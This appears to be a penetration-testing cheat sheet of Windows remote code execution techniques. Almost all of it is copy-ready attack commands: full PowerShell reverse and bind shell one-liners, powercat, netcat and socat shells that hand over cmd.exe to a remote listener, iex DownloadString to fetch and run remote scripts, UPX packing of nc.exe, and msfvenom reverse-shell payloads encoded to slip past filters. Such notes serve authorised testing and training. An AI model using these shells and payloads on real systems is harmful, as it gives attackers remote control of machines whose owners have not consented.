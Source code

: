 # Windows Remote Code Execution

## PowerShell

> Encoded Payload

Encode payload and copy it to clipboard

```
cat reverse_shell_cleartext.ps1 | iconv -t UTF-16LE | base64 -w 0 | cs
```

Execute payload from clipboard

```
powershell -enc $(vs)
```

> Reverse Shell

Kali machine

```
sudo nc -nlvp 443
```

Windows machine

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.11.130',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

> Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' +(pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

> Unrestricted and XClipborad

```
Set-ExecutionPolicy Unrestricted
Get-ExecutionPolicy
```

Install XClipboard

```
sudo apt install xclip
```

Alias XClipboard command with short character.

```
alias "cs=xclip -selection clipboard"
alias "vs=xclip -o -selection clipboard"
```

## Powercat

> Create Environment

Windows machine

``` powershell
. .\powercat.ps1
```

``` powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Kali machine

``` bash
sudo apt install powercat
cat /usr/share/windows-resources/powercat/powercat.ps1
```

> Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe
```

> Stand-Alone Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -g > shell.ps1

.\shell.ps1
```

> Encoded Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -ge > encoded_shell.ps1

powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0A...pAAoACgA=
```

> Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
powercat -l -p 443 -e cmd.exe
```

## Netcat

> Packed File

```
upx -9 nc.exe
```

> Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

> Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
nc -nlvp 443 -e cmd.exe
```

## Socat

> Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Windows machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:cmd.exe
```

> Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Windows machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## <a href='https://miloserdov.org/?p=4516' target="blank">Remote desktop</a>

``` bash
rdesktop $ip -u Tester -p Pass
```

``` bash
xfreerdp /f /u:Tester /p:<Pass> /v:192.168.0.101 /drive:D,/tmp
```

## Build Windows Binary File

```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

wine32 syncbreeze_exploit.exe
```

## Nmap NSE Scripts Exploit

``` bash
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
```

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">PayloadsAllTheThings</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

=== "Offline"

	Metasploit Framework

	BeEF

=== "Shell File"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```